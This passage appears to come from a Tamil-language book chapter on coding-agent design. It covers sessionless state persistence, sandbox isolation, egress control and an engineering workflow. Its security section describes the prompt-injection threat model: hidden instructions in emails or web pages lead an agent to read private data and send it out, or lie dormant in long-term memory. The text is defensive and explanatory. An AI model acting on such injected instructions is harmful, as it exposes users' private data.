கொள்கை சரிபார்ப்பு tool-ஆக செயல்படுகிறது). இருப்பினும், பிந்தையவற்றில் கூட, coding என்பது ஒரு தவிர்க்க முடியாத அடிப்படை திறனாகும்: துல்லியமான கணக்கீடு, தரவு செயலாக்கம், மற்றும் விதி சரிபார்ப்பு அனைத்தும் அதைச் சார்ந்துள்ளன — இது முந்தைய பகுதியான "Coding as a Foundational Agent Capability" என்ற கூற்றை எதிரொலிக்கிறது: coding மைய கட்டமைப்பாக உள்ளதா என்பது சூழ்நிலையைப் பொறுத்தது, ஆனால் coding திறனைக் கொண்டிருப்பது அனைத்து Agents-களுக்கும் ஒரு பொதுவான அடிப்படை ஆகும்.

### Sessionless Design

அடுத்து, நாம் இரண்டு வடிவமைப்புகளைப் பற்றி விவாதிக்கிறோம் — "எப்போதும் கிடைக்கும்" தொடர்பு முறை மற்றும் பாதுகாப்பு கட்டமைப்பு — இவை முதல் பார்வையில் Coding Agent தலைப்புடன் தொடர்பில்லாததாகத் தோன்றலாம். இருப்பினும், அவை Agent எவ்வாறு code execution environment மற்றும் file system state-ஐ நிர்வகிக்கிறது என்பதை நேரடியாக தீர்மானிக்கின்றன, இவை Coding Agent-ன் முக்கிய கவலைகள் ஆகும். (Coding Agent எவ்வாறு படிப்படியாக செயல்படுகிறது என்பதை முதலில் புரிந்துகொள்ள விரும்பும் வாசகர்கள் பின்னர் உள்ள "Coding Agent-ன் ஒட்டுமொத்த ஓட்டம்" பகுதிக்குச் சென்று, பின்னர் தொடர்பு மற்றும் பாதுகாப்பு வடிவமைப்பிற்குத் திரும்பலாம்.)

OpenClaw ஒரு **Sessionless** வடிவமைப்பைப் பின்பற்றுகிறது: நிறுவல், உள்நுழைவு அல்லது "ஆப்-ஐ திற" போன்ற படிகள் எதுவும் இல்லை; Agent எப்போதும் ஆன்லைனில் உள்ளது, மேலும் பயனர்கள் தாங்கள் ஏற்கனவே பயன்படுத்தும் messaging platform வழியாக எந்த நேரத்திலும் ஒரு செய்தியை அனுப்பி பதிலைப் பெறலாம் — இந்த தொடர்பு முறை மற்றும் அதன் அடிப்படையிலான Gateway message routing மற்றும் event-driven architecture பற்றி அத்தியாயம் 4-ன் பயனர் தகவல் தொடர்பு கருவி பகுதியில் விரிவாக விவாதிக்கப்பட்டுள்ளது, இங்கு மீண்டும் கூறப்படவில்லை. வலியுறுத்த வேண்டியது என்னவென்றால், இந்த முறை செயல்படுவதற்கான முன்நிபந்தனை: பெரிய மாதிரிகள் ஒரு புதிய வகையான "அறிவார்ந்த அடித்தளமாக" போதுமான அளவு முதிர்ச்சியடைந்துள்ளன — பாரம்பரிய இயக்க முறைமை வன்பொருளை சுருக்கி மேல்-நிலை பயன்பாடுகளுக்கு ஒருங்கிணைந்த இடைமுகத்தை வழங்குவது போல, பெரிய மாதிரிகள் மொழி புரிதல், பகுத்தறிவு மற்றும் திட்டமிடல் ஆகியவற்றின் சிக்கலை சுருக்கி, மேல்-நிலை Agents-களுக்கு ஒருங்கிணைந்த அறிவார்ந்த சுருக்கத்தை வழங்குகின்றன. இந்த அடித்தளத்தின் காரணமாகவே, "எப்போதும் ஆன்லைன் + உடனடி பதில்" என்ற முறையை குறைந்த செலவில் பொறியியல் ரீதியாக செயல்படுத்த முடிகிறது.

Coding Agent-க்கு, Sessionless-இன் உண்மையான engineering சவால் **code execution environment மற்றும் file system state எவ்வாறு messages முழுவதும் persist ஆகிறது** என்பதுதான். இரண்டு user messages சில நிமிடங்கள் இடைவெளியில் அல்லது பல நாட்கள் இடைவெளியில் இருக்கலாம், மேலும் Agent-இன் வேலை அதிக அளவிலான implicit state-ஐ சார்ந்துள்ளது: sandbox-இல் நிறுவப்பட்ட dependency packages, terminal session-இல் working directory மற்றும் environment variables, பின்னணியில் இயங்கும் development server, பாதியில் எழுதப்பட்ட files. OpenClaw-இன் அணுகுமுறை state-ஐ இரண்டு layers-இல் நிர்வகிப்பதாகும். **File system state inherently persistent ஆகும்** — workspace directory sandbox-க்கு வெளியே persistent storage-இல் mount செய்யப்பட்டுள்ளது, எனவே code, data, மற்றும் intermediate artifacts messages மற்றும் sandbox restarts முழுவதும் நிலைத்திருக்கும்; இது "file system Agent-இன் central hub" என்பதன் மற்றொரு பொருளாகும். **Process state alive-ஆக வைக்கப்படுகிறது அல்லது தேவைக்கேற்ப rebuild செய்யப்படுகிறது** — sandbox மற்றும் அதன் terminal session active periods-இல் இயங்கிக்கொண்டே இருக்கும், இதனால் ஒவ்வொரு message-க்கும் cold starts, re-changing directories, மற்றும் re-activating virtual environments தவிர்க்கப்படுகின்றன; idle timeout-க்குப் பிறகு resources-ஐ மீட்டெடுக்க அவை destroy செய்யப்படுகின்றன, ஆனால் destruction-க்கு முன், serializable environment state (working directory, environment variables, background task list) workspace files-இல் பதிவு செய்யப்படுகிறது, மேலும் அடுத்த wake-up-இல் Agent இந்த records-இலிருந்து rebuild செய்கிறது. இந்த அத்தியாயத்தின் பிற்பகுதியில் "Command Execution Environment-இன் State Persistence" பிரிவில் விவாதிக்கப்பட்ட persistent terminal session என்பது ஒரு single task-க்குள் இந்த mechanism-இன் எதிர் பகுதியாகும்; Sessionless அதே பிரச்சினையை messages மற்றும் நாட்கள் வரையிலான time scale-க்கு நீட்டிக்கிறது.

Sessionless maintenance-free அல்ல — இதன் பொருள் ஒவ்வொரு user message-க்கும் **complete trajectory மற்றும் working state-ஐ reload செய்ய வேண்டும்**, இதனால் state serialization efficiency மற்றும் trajectory compression strategies-இல் அதிக கோரிக்கைகள் வைக்கப்படுகின்றன; trajectory compression-இன் design principles பற்றி Chapter 2-இன் "Context Compression Strategies" பிரிவில் ஏற்கனவே விவாதிக்கப்பட்டுள்ளது, இந்த அத்தியாயம் Sessionless architecture-இன் கீழ் engineering trade-offs-ஐ மையமாகக் கொண்டுள்ளது.

### The Fatal Triad, Persistent Memory, மற்றும் Permission Strategy

இந்த "sovereign agent" paradigm கடுமையான security சவால்களையும் அறிமுகப்படுத்துகிறது. Coding Agent-க்கு files-ஐ read மற்றும் write செய்ய, commands-ஐ execute செய்ய, மற்றும் networks-ஐ access செய்ய permissions உள்ளன, அதாவது malicious instructions உட்செலுத்தப்பட்டால், அது மீள முடியாத சேதத்தை ஏற்படுத்தும். Developer மற்றும் independent researcher Simon Willison தனது புகழ்பெற்ற "Lethal Triad" மூலம் இந்த risk-ஐ சுருக்கமாக விளக்கினார் — மூன்று elements-உம் இருந்தால், அவை ஒரு முழுமையான attack loop-ஐ உருவாக்கி, system-ஐ high risk-இல் வைக்கின்றன:

1.  **Private Data-க்கான Access** — Agent user files மற்றும் password managers-ஐ read செய்ய முடியும்.
2.  **Untrusted Content-க்கான Exposure** — Process செய்யப்பட்ட emails மற்றும் web pages-இல் malicious payloads இருக்கலாம்.
3.  **Externally Communicate செய்யும் திறன்** — இது emails அனுப்பவும் commands execute செய்யவும் முடியும்.

தாக்குதல் பாதை இவ்வாறு மூடப்படுகிறது: நம்பத்தகாத உள்ளடக்கத்தில் மறைக்கப்பட்ட தீங்கிழைக்கும் வழிமுறைகள் Agent-ஐ நுழைந்து, தனிப்பட்ட தரவைப் படிக்கத் தூண்டி, பின்னர் வெளிப்புற சேனல்கள் மூலம் அதை வெளியேற்றுகின்றன. இந்த மூன்று கூறுகளும் இருப்பது, எந்த கூடுதல் நிபந்தனைகளும் இல்லாமல், தானாகவே போதுமான ஆபத்தானது என்பதைக் கவனிக்கவும். இதன் அடிப்படையில், ஆசிரியர் நான்காவது பரிமாணத்தைச் சேர்க்கிறார்—**Persistent Memory**. இது ஒரு இணையான நான்காவது அவசியமான நிபந்தனை அல்ல, மாறாக தாக்குதல்களுக்கான ஒரு பெருக்கி: ஒரு தாக்குபவர் வெளித்தோற்றத்தில் பாதிப்பில்லாத சார்புகள் அல்லது தீங்கிழைக்கும் வழிமுறைகளை Agent-இன் நீண்டகால நினைவகத்தில் எழுத முடியும், இதனால் அவை அமர்வுகள் முழுவதும் மறைந்து கிடந்து பொருத்தமான தருணத்தில் தூண்டப்படலாம், ஒரு முறை தாக்குதலை நீண்டகால மறைந்த மற்றும் பெருக்கப்பட்ட அச்சுறுத்தலாக மேம்படுத்துகிறது.

இந்த நான்கு புள்ளிகளை நான்கு வகையான எல்லைகளாக சுருக்கமாகக் கூறலாம்: data boundary, input trust boundary, output impact boundary, மற்றும் cross-session boundary. OpenClaw போன்ற முழு அனுமதி கொண்ட உள்ளூர் Agent இந்த நான்கையும் கொண்டுள்ளது, இது பாதுகாப்புப் பாதுகாப்பை அத்தகைய Agents எதிர்கொள்ள வேண்டிய முக்கிய சவாலாக ஆக்குகிறது.

மூடிய-மூல வணிக Agents (Claude Cowwork (Claude Code-இன் agentic architecture-ஐ மீண்டும் பயன்படுத்தும், உள்ளூர் கோப்புகளைப் படிக்கவும் எழுதவும் மற்றும் பல அலுவலக பயன்பாடுகளில் பல-படி பணிகளை முடிக்கவும் திறன் கொண்ட, அறிவுப் பணிக்கான Anthropic-இன் பொது-நோக்கம் Agent) போன்றவை) பழமைவாத அனுமதி உத்திகளைத் தேர்ந்தெடுத்திருப்பதற்கான காரணத்தையும் இது விளக்குகிறது—தொழில்நுட்பம் இயலாது என்பதால் அல்ல, மாறாக பாதுகாப்பு அபாயங்கள் மிக அதிகமாக இருப்பதால். Prompt injection அச்சுறுத்தல்களுக்கு எதிராக, உள்ளீட்டு வடிகட்டலை மட்டுமே நம்பியிருப்பது பெரும்பாலும் பயனற்றது. கவனம் அனைத்து தாக்குதல்களையும் அடையாளம் காண்பதில் இல்லை, மாறாக Agent உட்செலுத்தப்பட்டாலும் கூட, அது உண்மையில் ஆபத்தான செயல்களைச் செய்ய வாய்ப்பு இல்லை என்பதை உறுதி செய்வதில் உள்ளது. பாதுகாப்பு அமைப்பு முந்தைய இரண்டு அத்தியாயங்களில் அடுக்கு அடுக்காக நிறுவப்பட்டுள்ளது: **Context Layer Defense** — வெளிப்புற உள்ளடக்க மூலங்களைக் குறித்தல், கட்டமைக்கப்பட்ட பங்கு தனிமைப்படுத்தல், உள்ளீட்டு சுத்திகரிப்பு — அத்தியாயம் 2-இல் உள்ள prompt injection பகுதியைப் பார்க்கவும்; **Execution Layer Defense** — Sidecar சுயாதீன மறுஆய்வு, Human in the loop, குறைந்தபட்ச சலுகை மற்றும் சலுகைப் பிரிப்பு — அத்தியாயம் 4-ஐப் பார்க்கவும். ஒரே context-க்குள் இருக்கும் ஒரு Agent உட்செலுத்தப்பட்டதா என்பதைத் தீர்மானிப்பது கடினம், எனவே முக்கியமான செயல்பாடுகள் அந்த context-க்கு வெளியே உள்ள வழிமுறைகளால் மறுஆய்வு செய்யப்பட வேண்டும். இந்தக் கொள்கை இரண்டு அத்தியாயங்களிலும் இயங்குகிறது. இந்த அத்தியாயம் Coding Agents-க்கு மட்டுமே உரிய மூன்று குறிப்பிட்ட சேர்த்தல்களை மட்டுமே சேர்க்கிறது:

- **Command Semantic Parsing** — Shell கட்டளைகளின் சேர்க்கை வெடிப்பு keyword blacklist-களை பயனற்றதாக்குகிறது; ஒரு கட்டளையின் உண்மையான விளைவை சொற்பொருள் மட்டத்தில் புரிந்து கொள்ள வேண்டும் (இந்த அத்தியாயத்தின் பிற்பகுதியில் உள்ள "Harness Engineering" பகுதியில் விரிவாக விளக்கப்பட்டுள்ளது);
- **Sandbox Isolation and Network Egress Control** — குறியீடு செயல்படுத்தல் Coding Agents-க்கு மட்டுமே உரிய தாக்குதல் மேற்பரப்பு ஆகும்; தனிமைப்படுத்தல் நிலைகள் மற்றும் egress உத்திகளுக்கான பொறியியல் தேர்வுகள் அடுத்த பகுதியில் உள்ளடக்கப்பட்டுள்ளன;
- **Cross-Session Defense for Persistent Memory** — இந்த அத்தியாயத்தில் Lethal Triad க்கு அப்பால் சிறப்பாக வலியுறுத்தப்படும் ஒரு நீட்டிக்கப்பட்ட உருப்படி: long-term memory க்கு எழுதப்படும் உள்ளடக்கம், வெளிப்புற உள்ளடக்கத்தைப் போலவே அதே trust review க்கு உட்படுத்தப்பட வேண்டும். இது `MEMORY.md` இல் தீங்கிழைக்கும் வழிமுறைகள் செயலற்ற நிலையில் கிடந்து, நீண்ட காலத்திற்கு விளைவை ஏற்படுத்துவதைத் தடுக்கிறது.

இந்த மூன்று அதிகரிப்புகளும் முறையே verification, execution மற்றும் data layers களில் அமைந்து, முந்தைய இரண்டு அத்தியாயங்களின் defense system ஐ நிறைவு செய்கின்றன. இந்த உத்திகள் முழுமையாக ஆபத்தை நீக்க முடியாது, ஆனால் Agent இன் attack surface ஐ குறைக்க முடியும்.

**இந்த அத்தியாயத்திற்கான Security Content Map.** Coding Agents க்கான security விவாதம் இந்த அத்தியாயத்தில் பல இடங்களில் சிதறிக் கிடக்கிறது. வாசகர்கள் இணைப்புகளைப் புரிந்துகொள்ள உதவும் ஒரு அட்டவணை இங்கே: இந்தப் பகுதி (Lethal Triad மற்றும் Persistent Memory) *threat model* ஐ விளக்குகிறது — எந்த ஆபத்துகள் மிகவும் ஆபத்தானவை; அடுத்த பகுதி, "Engineering Choices for Code Execution Sandbox," *isolation as a safety net* ஐ மையமாகக் கொண்டுள்ளது — network egress, file system, resources மற்றும் persistent sessions க்கான engineering choices; "Harness Engineering" பகுதி *execution-time defense* ஐ விரிவுபடுத்துகிறது — commands இன் semantic parsing (keyword blacklists அல்ல), security checks ஐ "invisible" ஆக்க speculative execution, மற்றும் general Agent security க்கு மிகவும் பொருத்தமான இரண்டு விருப்ப நீட்டிக்கப்பட்ட தலைப்புகள்: "Who Does the Agent Serve?" (multi-party delegation இன் கீழ் loyalty) மற்றும் "When the Code Written by AI Itself Is Untrustworthy" (trust boundary ஐ data layer க்கு கீழே நகர்த்துதல்). இந்த விவாதங்கள் வெவ்வேறு கவனங்களைக் கொண்டுள்ளன மற்றும் ஒன்றையொன்று நிறைவு செய்கின்றன; அவை ஒரே நேரத்தில் வரிசையாகப் படிக்கப்பட வேண்டியதில்லை.

### Engineering Choices for Code Execution Sandbox

இந்த அத்தியாயம் மீண்டும் மீண்டும் ஒரு "sandbox" ஐ ஒரு முன்நிபந்தனையாகக் கருதுகிறது—ஏழு core tools களில் Code Interpreter க்கு ஒரு தனிமைப்படுத்தப்பட்ட சூழல் தேவைப்படுகிறது, மேலும் security உத்தி isolation ஐ ஒரு safety net ஆக நம்பியுள்ளது. ஆனால் sandbox என்பது ஒரு switch அல்ல; அது ஒரு தொடர் engineering decisions ஆகும். Chapter 4 ஏற்கனவே "why isolate" என்பதற்கு பதிலளித்துள்ளது, isolation mechanisms இன் hierarchical principles (மூன்று-அடுக்கு spectrum: process-level isolation, containers, microVM), மற்றும் "process-level for personal local machines, containers for single-tenant cloud, microVM/gVisor for multi-tenant or untrusted code" என்ற தேர்வு விதி; இந்தப் பகுதி அந்த spectrum ஐ மீண்டும் சொல்லாது, Chapter 4 இல் சேர்க்கப்படாத, Coding Agent ஐ செயல்படுத்தும்போது தவிர்க்க முடியாத நான்கு அதிகரிப்புகளை மட்டுமே நிறைவு செய்கிறது: network egress ஐ எவ்வாறு நிர்வகிப்பது, file system இன் எவ்வளவு பகுதியை mount செய்வது, resources ஐ எவ்வாறு கட்டுப்படுத்துவது, மற்றும் persistent sessions ஐ isolation உடன் எவ்வாறு சமரசம் செய்வது.

**Network Egress Control.** இது மிகவும் எளிதில் கவனிக்கப்படாமல் போகும், ஆனால் மிகவும் முக்கியமான விஷயம்: இயல்பாக network-ஐ துண்டித்து வைத்து, தேவைப்படும் போது மட்டும் ஒரு whitelist proxy மூலம் வரையறுக்கப்பட்ட இடங்களுக்கு (package sources, documentation sites, task-க்குத் தேவையான APIs) அணுகலை அனுமதிக்க வேண்டும். Lethal Triad-ன் உருப்படி 3-ஐ—"Ability to Communicate Externally"—திரும்பிப் பார்க்கும்போது, network egress control என்பது அதன் execution-layer பாதுகாப்பு ஆகும்: prompt injection வெற்றி பெற்று, தீங்கிழைக்கும் code sandbox-க்குள் உள்ள sensitive data-ஐ படித்தாலும், egress இல்லாமல், அதை அனுப்ப முடியாது. ஒவ்வொரு injection-ஐயும் அடையாளம் காண முயற்சிப்பதை விட, data exfiltration channel-ஐ துண்டிப்பது மிகவும் உறுதியான பாதுகாப்பு வரிசையாகும்.

**File System Isolation Scope.** Source code directory-ஐ read-only ஆக mount செய்யவும் (Agent editing tools மூலம் code-ஐ மாற்றுகிறது, மேலும் உருவாக்கப்பட்ட patches disk-ல் எழுதப்படுவதற்கு முன் மதிப்பாய்வு செய்யப்படுகின்றன, அல்லது ஒரு நகல் writable workspace-ல் mount செய்யப்படுகிறது); ஒரு தனி writable workspace directory உருவாக்கப்பட்ட artifacts மற்றும் intermediate files-ஐ வைத்திருக்கிறது; credential files (`~/.ssh`, keys, tokens) sandbox-க்குள் mount செய்யப்படவே இல்லை—கண்ணுக்குத் தெரியாத data கசிய முடியாது, இது Lethal Triad-ன் உருப்படி 1-க்கு ஒத்திருக்கிறது.

**Resource Limits and Timeouts.** CPU, memory, மற்றும் disk-க்கான quotas, மேலும் ஒரு wall-clock timeout-ஐ அமைத்து, infinite loops, fork bombs (தன்னை விரைவாகப் பிரதிபலித்து கணினியை செயலிழக்கச் செய்யும் ஒரு process), மற்றும் வரம்பற்ற disk writes-ஐ தடுக்க வேண்டும். ஒரு நடைமுறை விவரம்: timeouts மற்றும் limit violations-ஐ silent ஆக process-ஐ கொல்வதற்குப் பதிலாக, Agent-க்கு ஒரு structured error-ஐ திருப்பி அனுப்ப வேண்டும் ("Execution terminated after 120 seconds, last output was..."), இது Agent-க்கு அடுத்த முறை அதன் உத்தியை மாற்றிக்கொள்ள வாய்ப்பளிக்கிறது.

**Reconciling Persistent Sessions and Isolation.** பின்னர் வரும் "State Persistence for Command Execution Environments" பகுதி நீண்ட கால terminal sessions-ஐ பராமரிப்பதை ஆதரிக்கிறது, அதே நேரத்தில் isolation கொள்கை disposable environments-ஐ ஆதரிக்கிறது—இவை இரண்டிற்கும் இடையே முரண்பாடு உள்ளது. இதற்கான சமரச அணுகுமுறை: **sandbox-க்குள் session-ஐ உயிருடன் வைத்திருங்கள்**, terminal session-ன் lifecycle sandbox-ன் lifecycle-ஐ மீறாமல் கண்டிப்பாக இருக்கும், மேலும் session state ஒருபோதும் host machine-க்கு வெளியேறாது; நீண்ட நேர இடைவெளிகளில் மீட்பு தேவைப்படும் சூழ்நிலைகளுக்கு (முன்பு குறிப்பிட்ட Sessionless architecture போன்றவை), sandbox snapshots அல்லது "workspace file persistence + environment reconstruction via scripts" மூலம் state-ஐ மீட்டெடுக்க வேண்டுமே தவிர, sandbox-ன் lifetime-ஐ காலவரையின்றி நீட்டிக்கக் கூடாது. வேறு வார்த்தைகளில் சொன்னால், நிலைத்திருக்கச் செய்யப்படுவது **auditable state descriptions** (files, scripts, manifests) ஆகும், தெளிவற்ற running processes அல்ல.

### Coding Agent-ன் ஒட்டுமொத்த Workflow





பின்வருபவை **பரிந்துரைக்கப்பட்ட பொறியியல் workflow**-ஐ விவரிக்கிறது. இது software engineering-ன் சிறந்த நடைமுறைகளை Agent-ன் மீது பிரதிபலித்து, ஒரு சிறந்த வடிவத்தை வரையறுக்கிறது. நிஜ உலக Coding Agents (Claude Code, OpenClaw போன்றவை) பெரும்பாலும் ஒரு reactive iterative loop-இல் வேலை செய்கின்றன மற்றும் தேவைக்கேற்ப **இந்த workflow-ஐ சுருக்கிக் கொள்ளும்**—எளிய பணிகள் design documents-ஐத் தவிர்த்துவிட்டு, ஒவ்வொரு அடியிலும் user approval-க்காகக் காத்திருக்காது; ஒரு பணி சிக்கலானதாகவும், பரந்த தாக்கத்தைக் கொண்டதாகவும் இருக்கும்போது மட்டுமே ஒவ்வொரு கட்டத்தையும் முழுமையாகக் கடந்து செல்லும்.

**Project Documentation.**

ஒரு Coding Agent-ன் வேலை, project-ஐ முறையாகப் புரிந்துகொள்வதில் தொடங்குகிறது. ஒரு Agent முதன்முறையாக code repository-ஐ எதிர்கொள்ளும்போது, அதன் முதன்மையான பணி உடனடியாக code-ஐ மாற்றத் தொடங்குவதல்ல, மாறாக முழு project-க்குமான ஒரு cognitive framework-ஐ முதலில் நிறுவுவதாகும்—ஒரு புதிய engineer தனது முதல் நாளில் நேரடியாக code-ஐ submit செய்யாமல், முதலில் project structure-ஐப் பற்றித் தெரிந்துகொள்வதைப் போல. Agent முதலில் project-ல் documentation உள்ளதா எனச் சரிபார்க்கும்—README, architecture design documents, developer guides.

முக்கிய ஆவணங்கள் இல்லையெனில், Agent கண்மூடித்தனமாக வேலையைத் தொடங்கக்கூடாது, மாறாக documentation-ன் பொறுப்பை முனைப்புடன் ஏற்றுக்கொள்ள வேண்டும்—codebase-ஐ முறையாகப் படித்து, முக்கிய modules, core abstractions, மற்றும் components-க்கு இடையேயான dependencies-ஐ அடையாளம் கண்டு, architecture overview, directory structure, மற்றும் test running guide ஆகியவற்றைக் கொண்ட ஆரம்ப ஆவணங்களை உருவாக்க வேண்டும். இந்த ஆவணம் Agent-ன் அடுத்தடுத்த வேலைகளுக்கான blueprint-ஆகவும், மற்ற developers-க்கான entry point-ஆகவும் செயல்படுகிறது. இது ஒரு முக்கியமான கொள்கையை வெளிப்படுத்துகிறது: திறமையான ஒத்துழைப்புக்கு அறிவின் வெளிப்படுத்தல் (externalization of knowledge) ஒரு முன்நிபந்தனையாகும்.

Project documentation-க்கு இப்போது Agents-க்கு மட்டுமே உரிய ஒரு வடிவம் உள்ளது: **Project Instruction Files**. CLAUDE.md, AGENTS.md, .cursorrules போன்ற கோப்புகள் de facto industry standards-ஆக மாறிவிட்டன—இவை ஒவ்வொரு session-ன் தொடக்கத்திலும் தானாகவே context-ல் inject செய்யப்பட்டு, project-level system prompts-ஆகச் செயல்படுகின்றன. மனித வாசகர்களுக்காக வடிவமைக்கப்பட்ட README-களைப் போலல்லாமல், instruction files Agents-க்கான நடத்தை விதிகளைக் கொண்டுள்ளன: build மற்றும் test commands ("`npm test`-க்குப் பதிலாக `pnpm test`-ஐப் பயன்படுத்தவும்"), code style ("any type-ஐ முடக்கவும்"), மற்றும் தெளிவான கட்டுப்படுத்தப்பட்ட மண்டலங்கள் ("`migrations/` directory-ஐ மாற்ற வேண்டாம்"). இது OpenClaw-ன் `SOUL.md` (Agent-ன் அடையாளம் மற்றும் நடத்தை விதிகளை வரையறுப்பது) மற்றும் `MEMORY.md` (cross-session அனுபவத்தைக் குவிப்பது) ஆகியவற்றின் அதே கருத்தாகும், வெவ்வேறு நிலைகளில் பயன்படுத்தப்படுகிறது: SOUL.md "Agent யார்" என்பதை வரையறுக்கிறது, அதேசமயம் project instruction files "இந்த project-ல் எப்படி வேலை செய்வது" என்பதை வரையறுக்கிறது. Chapter 2-ன் context engineering கண்ணோட்டத்தில், instruction files மிகவும் சிக்கனமான stable prefix-ஆகும்—அவற்றின் உள்ளடக்கம் task-க்கு ஏற்ப மாறாது, இயற்கையாகவே KV Cache-க்கு ஏற்றதாக இருக்கும்; "அறிவு codebase-க்குள்ளேயே இருக்க வேண்டும்" என்ற கொள்கையின் மிக நேரடியான செயலாக்கமும் இதுவாகும்.

அறிவு வெளிப்படுத்தலின் கொள்கைக்கு ஒரு சுவாரஸ்யமான துணை முடிவும் உள்ளது: **தொலைதூர வேலைக்கு நட்பான குழுக்கள், AI Agents களுக்கும் நட்பானவையாக இருக்கும்.** தொலைதூர குழுக்கள் ஒத்திசைவற்ற தகவல் தொடர்பு மற்றும் ஆவணப்படுத்தலை நம்பியிருக்க வேண்டிய கட்டாயத்தில் உள்ளன—முடிவுகள் ஆவணங்களில் பதிவு செய்யப்படுகின்றன, context issue மற்றும் PR விளக்கங்களில் எழுதப்படுகிறது, tribal knowledge டெவலப்பர் வழிகாட்டிகளில் சேமிக்கப்படுகிறது, தண்ணீர் குளிரூட்டி அருகே வாய்வழி பரிமாற்றம் அல்லது வெள்ளை பலகை கூட்டங்களை நம்பாமல். இதுவே Agents உட்கொள்ளக்கூடிய அறிவின் வடிவமாகும்: Agents வாய்வழி ஒப்பந்தங்களைப் படிக்க முடியாது, ஆனால் வடிவமைப்பு ஆவணங்களைப் படிக்க முடியும். மாறாக, "என் பக்கத்தில் அமர்ந்திருக்கும் சக ஊழியரிடம் கேட்பதை" அதிகம் நம்பியிருக்கும் ஒரு குழு, புதிய தொலைதூர ஊழியர் மற்றும் Agent இருவருக்கும் சமமான உயர் onboarding செலவுகளைக் கொண்டிருக்கும். ஒரு குழுவின் "AI-தயார்நிலையை" மதிப்பிடுவதற்கான ஒரு எளிய proxy metric, code repository மற்றும் documentation ஐ மட்டுமே நம்பி ஒரு தொலைதூர புதியவர் சுயாதீனமாக வேலை செய்ய முடியுமா என்பதாகும்.

**Task புரிதல் மற்றும் தேவைகள் தெளிவுபடுத்தல்.**

தெளிவான எல்லைகள் மற்றும் வரையறுக்கப்பட்ட தாக்கம் கொண்ட எளிய தேவைகளுக்கு—அறியப்பட்ட bug ஐ சரிசெய்வது அல்லது ஒரு function இன் அளவுருக்களை சரிசெய்வது போன்றவை—Agent நேரடியாக implementation கட்டத்திற்கு செல்லலாம். இருப்பினும், மென்பொருள் மேம்பாட்டில் பெரும்பாலான பணிகள் இவ்வளவு எளிமையானவை அல்ல.

சிக்கலான தேவைகளுக்கு, Agent மிகவும் எச்சரிக்கையாகவும் முறையாகவும் இருக்க வேண்டும். சிக்கலானது பல பரிமாணங்களில் இருந்து எழலாம்: தேவையின் தெளிவின்மை (பயனர் தனக்கு என்ன வேண்டும் என்று தெரிந்தும் அதை துல்லியமாக வெளிப்படுத்த முடியாது), implementation பாதைகளின் பன்முகத்தன்மை (பல தொழில்நுட்ப தீர்வுகள் அவற்றின் சொந்த trade-offs உடன்), அல்லது தாக்கத்தின் அகலம் (பல modules களில் மாற்றங்கள் தேவைப்படுதல், ஏற்கனவே உள்ள செயல்பாட்டை உடைக்க வாய்ப்பு). Agent ஆராய்ச்சி மூலம் எல்லைகளை தெளிவுபடுத்த வேண்டும் மற்றும் தேவைப்படும் போது பயனருடன் முனைப்புடன் உரையாட வேண்டும். உதாரணமாக, ஒரு பயனர் "system performance ஐ மேம்படுத்து" என்று கேட்கும்போது, Agent முதலில் கண்டுபிடிக்க வேண்டும்: மேம்படுத்தலின் குறிப்பிட்ட இலக்கு என்ன (response time ஐ குறைத்தல், memory usage ஐ குறைத்தல், அல்லது throughput ஐ அதிகரித்தல்), என்ன trade-offs ஏற்கத்தக்கவை (code complexity அதிகரிப்பு அனுமதிக்கப்படுகிறதா), மற்றும் தற்போதைய bottleneck எங்கே உள்ளது. தேவைகள் இன்னும் தெளிவற்ற நிலையில் coding ஐ தொடங்குவது பெரும்பாலும் குறிப்பிடத்தக்க மறுவேலைக்கு வழிவகுக்கும்.

**Design Document எழுதுதல்.**

ஒரு design document என்பது abstract requirements-ஐ concrete implementation plan-ஆக மாற்றும் ஒரு பாலம். இது மையக் கேள்விகளுக்கு பதிலளிக்க வேண்டும்: எந்த modules-ஐ மாற்ற வேண்டும், ஏன்; எந்த solution-ஐ ஏற்க வேண்டும், அதன் ஒப்பீட்டு நன்மைகள் என்ன; என்ன புதிய dependencies அறிமுகப்படுத்தப்பட வேண்டும்; மற்றும் system-ல் எதிர்பார்க்கப்படும் தாக்கம் என்ன. Design document எழுதுவது என்பது ஆழ்ந்த சிந்தனையாகும்—இது Agent-ஐ coding-ல் அதிக முதலீடு செய்வதற்கு முன், ஒரு solution-ன் feasibility-ஐ கருத்தியல் ரீதியாக சரிபார்க்க கட்டாயப்படுத்துகிறது. மிக முக்கியமாக, design document மனிதர்களுக்கு ஒரு திறமையான intervention point-ஐ வழங்குகிறது—ஒரு concise design document-ஐ மதிப்பாய்வு செய்வது, நூற்றுக்கணக்கான lines of code-ஐ மதிப்பாய்வு செய்வதை விட மிகவும் எளிதானது. Design document-ஐ முடித்த பிறகு, Agent அதை user review-க்கு சமர்ப்பித்து, தொடர்வதற்கு முன் ஒப்புதல் கிடைக்கும் வரை காத்திருக்க வேண்டும்.

**Code Implementation மற்றும் Testing.**

Design approval கிடைத்த பிறகு, Agent project-ன் code conventions-ஐப் பின்பற்றி implementation-ஐ மேற்கொள்கிறது, existing abstractions மற்றும் tools-ஐ மீண்டும் பயன்படுத்துகிறது, மேலும் codebase-ன் ஆரோக்கியத்தைப் பேண தேவைப்படும் போது moderate refactoring-ஐ மேற்கொள்கிறது.

Implementation-க்குப் பிறகு, Agent உடனடியாக test-driven quality assurance phase-க்குள் நுழைகிறது—புதிய அல்லது மாற்றியமைக்கப்பட்ட functionality-க்கான test cases-ஐ எழுதுகிறது, normal paths, boundary conditions மற்றும் error scenarios-ஐ உள்ளடக்குகிறது. Tests-ஐ எழுதிய பிறகு, Agent test suite-ஐ இயக்குகிறது. Tests தோல்வியடைந்தால், Agent வெறுமனே user-க்கு தோல்வியைப் புகாரளிக்காமல், காரணத்தை பகுப்பாய்வு செய்து, சிக்கலைக் கண்டறிந்து, அனைத்து tests-உம் கடந்து செல்லும் வரை code-ஐ மாற்றியமைக்க வேண்டும். இந்த "test-fix" loop பல மறு செய்கைகள் தேவைப்படலாம், மேலும் இந்த self-correcting திறன்தான் ஒரு Coding Agent-ஐ code generator-லிருந்து நம்பகமான engineering assistant-ஆக உயர்த்துகிறது.

